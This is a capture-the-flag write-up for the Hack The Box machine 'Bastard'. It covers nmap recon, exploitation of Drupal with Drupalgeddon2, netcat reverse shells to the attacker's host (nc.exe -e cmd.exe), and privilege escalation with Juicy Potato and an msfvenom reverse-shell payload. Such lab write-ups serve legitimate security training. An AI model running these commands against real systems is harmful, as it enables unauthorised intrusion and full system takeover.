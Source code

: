 # Bastard Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA bastard 10.10.10.9 -T4``

``80/tcp    open  http    Microsoft IIS httpd 7.5``

``135/tcp   open  msrpc   Microsoft Windows RPC``

``49154/tcp open  msrpc   Microsoft Windows RPC``

# ${{\color{purple}Initial Foothold}}\ $

### I found a drupal installation :

![image](https://user-images.githubusercontent.com/123066149/222651004-4f57a881-a658-42b1-9971-eed3a3e336a9.png)

### And just after I found the version :

![image](https://user-images.githubusercontent.com/123066149/222651316-1a0c5c4c-72df-4617-a4a4-4b99ff7a49d5.png)

### After a little research on my exploit database :

![image](https://user-images.githubusercontent.com/123066149/222651599-021d5a98-9551-49a5-9dda-a5b8e4e49f2f.png)

### I used Drupalgeddon2 for the exploitation part :

https://github.com/dreadlocked/Drupalgeddon2

# ${{\color{purple}Exploitation}}\ $

### I met a problem during the execution it is necessary to install a ruby gem :

![image](https://user-images.githubusercontent.com/123066149/222652135-0d69f8e1-66bf-43a9-99b2-d1284cce2573.png)

``ruby drupalgeddon2.rb http://10.10.10.9``

![image](https://user-images.githubusercontent.com/123066149/222652407-c72044a9-a977-4103-80d7-0aa443c1b8d7.png)

![image](https://user-images.githubusercontent.com/123066149/222652670-508a49d3-2911-4db4-ad3b-932e7fc9c50a.png)

``/usr/bin/impacket-smbserver kali .``

``copy \\10.10.16.2\kali\nc.exe``

### Here I use nc to be able to execute commands because with the exploit I am blocked in the root of the web server.
### I tried powershell and cmd and it does not work with powershell.

``nc.exe 10.10.16.2 1234 -e powershell.exe``

``nc.exe 10.10.16.2 1234 -e cmd.exe``

# ${{\color{purple}Privilege Escalation}}\ $

``whoami /priv``

![image](https://user-images.githubusercontent.com/123066149/222653150-d960687b-fcc3-4815-ae6d-8fef5e7d11b8.png)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p whoami``

![image](https://user-images.githubusercontent.com/123066149/222653070-65967f13-6367-46e0-9706-88a7f4bc4fc8.png)

``mmsfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe -o exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/222653552-a4fc6dcc-3560-4202-a773-942dfcbf8786.png)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p C:\inetpub\drupal-7.54\exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/222653326-a6bb088c-8984-4daa-8634-75fd0e114c60.png)

# ${{\color{purple}Points of Improvement}}\ $

* if I have a problem with the execution of an exploit in rubby

``gem install xx``

![image](https://user-images.githubusercontent.com/123066149/222652135-0d69f8e1-66bf-43a9-99b2-d1284cce2573.png)

* Other way :

![image](https://user-images.githubusercontent.com/123066149/222665701-0b747998-8481-4c25-a2ef-4e6a4a246310.png)


